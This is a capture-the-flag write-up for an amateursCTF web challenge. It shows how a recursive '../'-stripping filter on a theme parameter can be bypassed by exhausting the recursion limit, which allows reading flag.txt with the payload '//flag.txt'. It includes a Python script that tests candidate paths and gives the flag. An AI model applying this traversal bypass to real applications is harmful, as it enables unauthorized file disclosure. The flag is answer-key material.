 # funny factorials

## Prompt

I made a factorials app! It's so fancy and shmancy. However factorials don't seem to properly compute at big numbers! Can you help me fix it?

`funny-factorials.amt.rs`

## Solution

The `Dockerfile` reveals that there is a `flag.txt` in the root directory.

`app.py` reveals that there is a possibly directory traversal vulnerability in the `theme` query parameter.

It is not easy to access this because there is a recursive script sanitzing user path input. 

This script tests inputs and finds what works for accessing `flag.txt`.

```py
import sys

def filter_path(path):
    path = path.replace("../", "")
    try:
        return filter_path(path)
    except RecursionError:
        # remove root / from path if it exists
        if path[0] == "/":
            path = path[1:]
        return path


if __name__ == '__main__':
    sys.setrecursionlimit(100)
    path1 = ".." * 99 + "/" * 99 + "flag.txt"
    print(path1)
    print(filter_path(path1))

    path2 = "/" * 2 + "flag.txt"
    print(path2)
    print(filter_path(path2))
```

![1](image1.png)

Trying to replace the theme with `//flag.txt` gives the flag.

![2](image2.png)

## Flag

`amateursCTF {h1tt1ng_th3_r3curs10n_l1mt_1s_1mp0ssibl3}`
